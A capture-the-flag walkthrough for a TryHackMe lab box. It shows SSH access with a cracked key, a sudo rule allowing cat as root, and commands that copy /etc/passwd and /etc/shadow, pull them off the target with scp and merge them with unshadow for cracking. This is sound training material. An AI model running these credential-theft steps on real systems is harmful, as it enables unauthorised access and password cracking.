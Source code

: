 ## Gaining Access

We investigated various avenues but ultimately SSH'ing in as `john` with the `id_rsa` SSH key, and the password for that file discovered by John the Ripper was the way in.

### Unprivileged Access

Now that we're SSH'ed in as `john` we can see the `user.txt` flag needed for the TryHackMe room.

It we run a `sudo -l`, we can see we can run `cat` as `sudo`!

## Privilege Escalation

When we run a `sudo -l`, we see:

```bash
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

We can of course do something like:

```bash
sudo cat /root/root.txt
```

to get the root flag and finish the room, but we haven't actually rooted the box yet!

### Cracking the `/etc/passwd`

Since we will have access to see the contents of `/etc/passwd` and the `/etc/shadow`, then we might see if we can crack the passwords for the accounts on that box. First, on the target machine exfiltrate the contents of those files and put them in a common place:

#### Target Machine:
```bash
sudo cat /etc/passwd > /tmp/passwd
sudo cat /etc/shadow > /tmp/shadow
```

#### Your Workstation:
Then on your workstation, use SCP for example to go get those files from the target machine:

```bash
scp -i ./id_rsa.txt john@10.10.10.10:/tmp/passwd ./
scp -i ./id_rsa.txt john@10.10.10.10:/tmp/shadow ./
```

You can now merge `passwd` and `shadow` and make them one file, like it used to be in the olden days of Unix, with `unshadow`:

```bash
unshadow ./passwd ./shadow > ./combined.txt
```
